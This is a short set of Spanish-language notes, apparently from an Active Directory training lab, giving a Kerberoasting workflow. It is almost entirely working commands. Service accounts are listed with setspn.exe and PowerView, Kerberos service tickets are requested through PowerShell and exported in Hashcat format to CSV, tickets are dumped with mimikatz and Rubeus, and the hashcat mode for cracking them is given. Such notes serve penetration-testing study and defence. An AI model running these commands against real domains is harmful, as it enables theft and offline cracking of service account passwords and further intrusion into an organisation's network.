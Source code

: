 Podemos listar los users con SNP con setspn.exe

    setspn.exe -Q */*

Esto nos va a traer muchos spn, debemos enfocarnos en los users nomás.

Traer todos los tickets:


    setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }


POWERSHELL traer tickets de un user puntual:

    Add-Type -AssemblyName System.IdentityModel

    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<long_name_account>"             

ejemplo de long_name_account: MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433

Extraerlos con powerview:

    Import-Module .\PowerView.ps1


traer todos los users spn:

    Get-DomainUser * -spn | select samaccountname

si queremos trar los spn de un domain en específico (para aprovechar confianzas entre forests)

    Import-Module .\powerview.ps1; Get-DomainUser -SPN -Domain <domain> | Select-Object SamAccountName

traer el ticket de un usuario en especial:

    Get-DomainUser -Identity <user> | Get-DomainSPNTicket -Format Hashcat    (esto no tre el ticket para copiar y pegar)

traer todos los tickets a un csv

    Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation

guardar el ticket de un usuario en especial:

    Get-DomainUser -Identity <user> | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation

mimikatz:

    mimikatz # kerberos::list /export  

Rubeus:

    .\Rubeus.exe kerberoast /outfile:hashes.kerberoast


hashcat -m 13100
